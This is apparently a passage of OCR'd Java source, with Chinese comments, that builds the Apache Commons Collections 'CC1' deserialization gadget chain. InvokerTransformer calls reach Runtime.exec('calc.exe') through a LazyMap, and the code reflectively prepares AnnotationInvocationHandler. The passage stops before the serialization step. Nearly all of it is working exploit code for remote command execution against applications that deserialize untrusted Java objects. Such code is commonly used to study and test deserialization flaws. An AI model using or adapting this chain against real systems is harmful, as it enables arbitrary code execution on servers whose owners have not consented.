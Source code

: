         import org.apache.commons.collections.Transformer;
        import org.apache.commons.collections.functors.ChainedTransformer;
        import org.apache.commons.collections.functors.ConstantTransformer;
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.map.LazyMap;
        
        import java.io.*;
        import java.lang.annotation.Target;
        import java.lang.reflect.Constructor;
        import java.lang.reflect.InvocationHandler;
        import java.lang.reflect.Proxy;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC1_LazyMap {
            public static void main(String[] args) throws Exception{
                Transformer[] transformers = new Transformer[] {
                        new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                        new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
                Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
        
                Map innerMap = new HashMap();   //实例化一个Map对象
                Map outerMap = LazyMap.decorate(innerMap, transformedChain); //构造一个LazyMap对象。
        
        
                Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
                Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
                ctor.setAccessible(true);
